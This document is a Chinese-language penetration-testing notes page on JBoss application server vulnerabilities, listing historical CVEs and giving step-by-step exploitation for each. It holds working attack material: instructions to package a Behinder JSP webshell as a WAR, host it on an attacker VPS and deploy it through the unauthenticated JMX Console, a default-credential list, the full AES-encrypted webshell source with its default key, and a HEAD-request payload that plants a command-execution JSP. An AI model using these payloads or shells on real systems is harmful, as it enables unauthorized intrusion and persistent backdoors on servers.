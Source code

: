 
https://target.yijinglab.com
# JBoss漏洞
一个基于J2EE的开源的应用服务器, 用于管理EJB, 一般与Tomcat或Jetty使用, 核心服务不包括servelt/JSP WEB容器

## Jboss历史漏洞
### 访问控制不严格
- JMX Console未授权访问Getshell
- Administration Console 弱口令Getshell
- CVE-2007-1036 -- JMX Console HtmlAdaptor Getshell
- CVE-2010-0738 -- JMX控制台安全验证绕过漏洞

### 反序列化漏洞
- CVE-2013-4810 -- JBoss EJBInvokerServlet 反序列化漏洞
- CVE-2015-7501 -- JBoss JMXInvokerServlet 反序列化漏洞
- CVE-2017-7504 -- JBoss 4.x JBossMQ JMS 反序列化漏洞
- CVE-2017-12149 -- JBoss AS 6.X 反序列化漏洞

## JBoss历史漏洞发现
https://github.com/GGyao/jbossScan
https://github.com/joaomatosf/jexboss

## JBoss历史漏洞利用
### JMX Console未授权访问漏洞
访问webUI界面`http://ip:port/jmx-console`, 直接通过默认账号密码`admin`/`admin`登录或直接进入则漏洞存在
#### 远程部署war包
```shell
# 打包冰蝎jsp马为war包
jar -cvf shell.war shell.jsp

# 在vps上启动web服务
python -m http.server

# war包下载地址
http://vps-IP:8000/shell.war
```
1. 页面中的`jboss.deployment`选项(自带的部署功能)中的`flavor=url,type=DeplormentScanner`
	- 或`http://xx.xx.xx.xx:8080/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.deployment:type=DeploymentScanner,flavor=URL`
2. `void addURL()`中ParamType字段为`java.util.list`, 使用远程服务器IP文件上传, 点击`Invoke`
3. 点击`Back to MBean View`确认查看, 点击`Apply Changes`
4. 回到`JMX-console`, 查看部署的木马是否存在, 访问`http://ip/shell/shell.jsp`冰蝎连接

### Jboss 弱口令
漏洞点`http://IP/admin-console`, 从8080主页面进入
```
admin/admin
jboss/jboss
admin/jboss
admin/123456
admin/password
```
- `Web Applicatoin(WAR)`-->`Content`部署WAR包

### JMX Console HtmlAdaptor Getshell
#### CVE-2007-1036
- /jmx-console/HtmlAdapter路径对外开放, 并且没有任何身份验证机制, 导致攻击者可以直接进入JMX控制台
- `jboss.admin`->`DeploymentFileRepository`->`store()`方法, 通过向四个参数传入信息Getshell
	- p1: war包名
	- p2: 上传的文件名
	- p3: 上传的文件格式
	- p4: 上传文件的内容
- p2和p3可以进行文件的拼接, p2=`she`, p3=`ll.jsp`, 会拼接为`shell.jsp
- 影响版本: `4.x`以下
- payload: `http://IP/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.admin:service=DeploymentFileRepository`
![[Pasted image 20230818210313.png]]
```jsp
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
```
- 访问`http://IP/job1/job1.jsp

#### CVE-2010-0738
- JMX Console 安全验证绕过
- 利用HEAD请求方法绕过HET和POST请求的限制
- 影响版本: `jboss4.2.0`--`jboss4.3.0`
```
HEAD /jmx-console/HtmlAdaptor?
action=invokeOp&name=jboss.admin:service=DeploymentFileRepository&methodIn
dex=6&arg0=../jmx-console.war/&arg1=hax0rwin&arg2=.jsp&arg3=
<%Runtime.getRuntime().exec(request.getParameter("i"));%>&arg4=True
```


### JBoss 反序列化漏洞
- Java的序列化和反序列化:
	- 序列化: 将Java对象转换为字节序列, 在传递和保存对象时保证对象的完整性和可传递性, 转换为有序字节流, 以便网络上传输或保存在本地文件中
	- 反序列化: 把字节序列恢复为Java对象的过程, 根据字节流中保存的对象状态及描述信息, 通过反序列化重建对象
- https://github.com/joaomatosf/JavaDeserH2HC, 需要javac环境
- [JBoss历史漏洞汇总与复现_cve-2015-7501_码啊码的博客-CSDN博客](https://blog.csdn.net/m0_48108919/article/details/123919814)

#### CVE-2015-7501
- JMXInvokerSevlet 反序列化漏洞
- 在`/invoker/JMXInvokerServlet`请求中读取了用户传入的对象, 可以利用`Apache Commos Collections`中的`Gadge`执行任意代码
- 由于JBoss的`HTTPInvoker`组件中的`ReadOnlyAccessFilter`过滤器没有在没有任何安全检查的情况下尝试将来自客户端的数据流进行反序列化
- 访问`http://IP:PORT/invoker/JMXInvokerServlet`, 会自动下载对应文件, 漏洞存在

#### CVE-2017-7504
- JBossMQ JMS 反序列化漏洞
- 影响版本: <=`JBoss AS 4.x`
- 不经验证执行反序列化, 路径`/jbossmq-httpil/HTTPServerILServlet

#### CVE-2017-12149
- 漏洞路径 `http://ip:port/invoker/readonly`, 显示500报错, 漏洞存在
- 影响范围: `JBoss 5.x - 6.x`
- [CVE-2017-12149（JBOSS反序列化远程代码执行漏洞）漏洞复现_Jerry____的博客-CSDN博客](https://blog.csdn.net/Jerry____/article/details/103506224)